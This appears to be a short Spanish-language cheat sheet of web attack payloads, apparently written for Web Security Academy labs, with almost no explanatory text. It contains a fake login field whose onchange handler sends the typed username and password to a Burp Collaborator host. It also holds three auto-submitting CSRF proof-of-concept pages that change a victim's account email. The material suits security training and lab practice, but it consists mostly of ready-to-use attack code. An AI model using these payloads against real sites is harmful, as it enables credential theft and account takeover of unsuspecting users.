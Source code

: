 ## Nuevo login
~~~html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
~~~

## Cambio de contraseña inseguro
~~~html
<html>
	<body>
		<form action="https://vulnerable-website.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@evil-user.net" />
		</form>
		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
~~~

## Ejemplo CRSF en POST
~~~html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
	<form action="https://000.web-security-academy.net/my-account/change-email" method="POST">
	  <input type="hidden" name="email" value="new2&#64;email&#46;com" />
	  <input type="submit" value="Submit request" />
	</form>
	<script>
	  document.forms[0].submit();
	</script>
  </body>
</html>

~~~

## Ejemplo CRSF en GET
~~~html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
<!--  <script>history.pushState('', '', '/')</script>-->
	<form action="https://000.web-security-academy.net/my-account/change-email">
	  <input type="hidden" name="email" value="new222&#64;email&#46;com" />
	  <input type="submit" value="Submit request" />
	</form>
	<script>
	  document.forms[0].submit();
	</script>
  </body>
</html>

~~~
